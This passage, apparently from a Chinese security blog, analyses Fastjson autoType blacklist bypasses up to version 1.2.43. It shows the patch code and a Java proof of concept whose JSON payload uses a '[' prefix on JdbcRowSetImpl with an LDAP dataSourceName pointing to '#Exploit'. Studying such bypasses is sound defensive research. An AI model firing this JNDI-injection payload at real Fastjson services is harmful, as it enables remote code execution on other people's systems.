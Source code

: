 ![image-20220923105143556](img/image-20220923105143556.png)

`loadClass:1091`去掉一层`L;`，第二次再次去掉一层`L;`就得到了`com.sun.rowset.JdbcRowSetImpl`

经历两次一模一样的方法处理。

![image-20220923105414453](img/image-20220923105414453.png)

## 1.2.25~1.2.43

在1.2.43版本的补丁修复中，增加了以下验证，也就是在checkAutoType后又添加了一层判断逻辑

```java
if (((-3750763034362895579L ^ (long)className.charAt(0)) * 1099511628211L ^ (long)className.charAt(className.length() - 1)) * 1099511628211L == 655701488918567152L) {
    if (((-3750763034362895579L ^ (long)className.charAt(0)) * 1099511628211L ^ (long)className.charAt(1)) * 1099511628211L == 655656408941810501L) {
        throw new JSONException("autoType is not support. " + typeName);
    }

    className = className.substring(1, className.length() - 1);
}
```

在`loadClass`前面执行，如果是双写`L`就会抛出异常。

所以双写`L`这边也给禁掉了。还有一个思路是跟判断开头是`L`结尾是`;`的逻辑的同步逻辑中，还有这样一段代码。

```java
else if (className.charAt(0) == '[') {
    Class<?> componentType = loadClass(className.substring(1), classLoader);
    return Array.newInstance(componentType, 0).getClass();
```

现在大致是这么理解，然后现在说POC

```java
public class POC {
    public static void main(String[] args) {
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String st = "{\"@type\":\"[com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"ldap://localhost:1099/#Exploit\", \"autoCommit\":true}";
        JSON.parse(st);
    }
}
```

原本的POC是这样，只是在`autotype`的值前面加上一个`[`，来调用`Array.newInstance`去绕过禁用双`L`的修复。但是这样执行POC的话，会报错。

![image-20220923171104344](img/image-20220923171104344.png)

意为希望42列这里存在一个`[`至于是为什么，这个不清楚，但是稍微想一想，他一定不会是开发在提示你这个漏洞的POC该怎么写吧。所以就猜测可能是语法问题。至于为什么写，不深究（是因为也看不懂）

然后继续执行POC

![image-20220923171314132](img/image-20220923171314132.png)
